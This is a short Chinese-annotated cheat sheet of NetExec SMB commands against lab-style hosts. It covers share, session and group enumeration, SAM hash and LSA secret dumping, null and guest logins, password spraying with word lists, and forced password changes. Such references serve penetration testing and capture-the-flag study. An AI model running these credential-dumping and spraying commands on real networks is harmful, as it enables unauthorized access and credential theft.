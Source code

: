 ```
# 枚举域密码策略
netexec smb 10.129.189.93 -u 'alfred' -p 'basketball' --pass-pol

# 枚举当前活动会话
netexec smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --sessions

# 枚举已登陆用户
netexec smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --loggedon-users

# 枚举磁盘
netexec smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --disks

# 枚举sam hash
netexec smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --sam

# 枚举lsa进程secrets
netexec smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --lsa

# 尝试空登录
netexec smb 192.168.80.128 -u '' -p ''

# 尝试匿名登录
netexec smb 192.168.80.128 -u 'a' -p ''

# 尝试guest访客登录
netexec smb 192.168.80.128 -u 'guest' -p ''

# 多用户名和密码进行喷洒
netexec smb 10.10.11.69 -u 'j.fleischman' 'j.coffey' 'j.coffey' -p 'J0elTHEM4n1990!'
netexec smb 10.10.11.69 -u 'j.coffey' -p 'password' 'secret123' '1234567890'

# 用户名和密码字典进行喷洒（默认情况下，nxc 会在成功登录后退出。使用 --continue-on-success 标志，即使找到有效密码，它也会继续喷洒。）
nxc smb dc01.fluffy.htb -u ./domainusers.txt -p BAF-XVRpOno --continue-on-success
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt --continue-on-success

# 修改用户密码
nxc smb 10.129.189.93 -u sam -p Password123! -M change-password -o NEWPASS=NewP@ssword123

# 尝试空登录，主要应对非域控机器
netexec smb 192.168.80.128 -u '' -p '' --local-auth

# 尝试guest登录，主要应对非域控机器
netexec smb 192.168.80.128 -u 'guest' -p '' --local-auth

# 枚举本地组，主要应对非域控机器
netexec smb 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --local-groups

# 枚举 Bitlocker状态，主要应对非域控机器
netexec smb 192.168.80.128 -u 'guest' -p '' --local-auth -M bitlocker
```

